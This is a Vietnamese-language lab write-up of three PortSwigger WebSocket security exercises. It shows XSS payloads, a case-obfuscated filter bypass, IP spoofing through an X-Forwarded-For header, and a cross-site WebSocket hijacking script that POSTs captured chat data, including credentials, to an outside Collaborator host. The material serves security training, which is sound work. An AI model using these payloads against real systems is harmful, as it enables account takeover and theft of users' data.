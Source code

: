 # Testing for WebSockets security vulnerabilities

## WebSockets Lab

### Lab: Manipulating WebSocket messages to exploit vulnerabilities
Bài lab đã mô tả cho chúng ta biết, lỗ hổng nằm ở live chat sử dụng Websockets, và yêu cầu chúng ta hiện lên thông báo aler() (lỗ hổng XSS) để hoàn thành bài lab.


Truy cập vào bài lab chúng ta thấy được 1 web site bán hàng, để ý ở góc phải chúng ta thấy được chức năng live chat để exploit. 

Sau khi vào chức năng live chat chúng ta gửi 1 đoạn chat tùy ý và dùng burp suite bắt lại request để xử lí.


Chúng ta thay message đã bắt được bằng cheat sheet:
```
<img src=1 onerror='alert(Malwar3 hacked)'>
```


### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities

Bài lab tiếp theo cũng tương tự như bài trước và chúng ta  khai thác bằng message.

Tuy nhiên khi chúng ta làm tương tự bài trước thì phát hiện ra cheat sheet : 
```
<img src=1 onerror='alert(Malwar3 hacked)'>
```
Đã bị block và chúng ta không thể truy cập vào live chat được nữa, thêm header sau vào yêu cầu handshake để giả mạo địa chỉ IP :
```
X-Forwarded-For: 1.1.1.1
```
Sau đó dùng cheat sheet như sau để bypass qua blacklist của web site: 
```
<img src=1 oNeRrOr=alert`1`>
```



### Lab: Cross-site WebSocket hijacking

Bài lab này hoàn toàn khác so với 2 bài trên, theo mô tả thì chúng ta vẫn sẽ khai thác từ live chat nhưng sẽ sử dụng hỗ trợ từ burp suite để sử dụng 1 máy chủ khác đê leak thông tin username và passwod.
Login thành công thì chúng ta solve bài lab


```
<script>
  var ws = new WebSocket('wss://ac801f551fa28b3880826dc5006000a3.web-security-academy.net/chat');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://3imjc6h5a1t0tr9blcmtybnav11upj.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```
